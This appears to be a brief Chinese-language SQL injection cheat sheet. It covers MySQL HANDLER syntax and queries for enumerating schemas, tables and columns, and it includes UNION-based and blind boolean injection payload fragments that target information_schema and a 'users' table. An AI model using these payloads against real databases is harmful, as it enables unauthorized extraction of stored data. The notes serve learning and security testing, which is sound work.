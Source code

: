 

handler 的语法

```
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```



### 数据库名

```
SELECT table_schema FROM sys.schema_table_statistics GROUP BY table_schema;
SELECT table_schema FROM sys.x$schema_flattened_keys GROUP BY table_schema;
SELECT database();
SELECT schema_name FROM information_schema.schemata; 
```



### 表名

```
SELECT table_name FROM sys.schema_table_statistics WHERE table_schema='mspwd' GROUP BY table_name;
SELECT table_name FROM  sys.x$schema_flattened_keys WHERE table_schema='mspwd' GROUP BY table_name;
select 1 UNION SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出当前数据库中的表 */
AND (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)))>100
```



### 列名

```
SELECT column_name FROM sys.schema_auto_increment_columns WHERE table_name='mspwd' GROUP BY column_name;
```



- union 查询

	- UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

- 盲注

	- and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users' ),1,1)))>100
